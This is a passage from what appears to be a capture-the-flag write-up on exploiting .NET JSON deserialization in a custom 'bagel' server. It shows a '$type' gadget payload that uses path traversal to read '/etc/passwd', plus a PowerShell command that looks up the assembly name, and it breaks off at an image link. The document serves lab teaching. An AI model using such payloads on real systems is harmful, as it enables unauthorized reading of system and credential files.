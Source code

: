 

    {
            "RemoveOrder": {
                    "$type": "bagel_server.File, bagel"
            "ReadFile": "../../../../etc/passwd"
            }
    }



The Namespace is what I noted [above](#overview), and the ClassName is
the class with the object. The AssemblyName I'll get from PowerShell:



    PS > [System.Reflection.AssemblyName]::GetAssemblyName('Z:\bagel.dll')

    Version        Name
    -------        ----
    1.0.0.0        bagel



This diagram shows how this payload is processed by the server:

[![](/img/image-20230531134205700.png)*Click for full size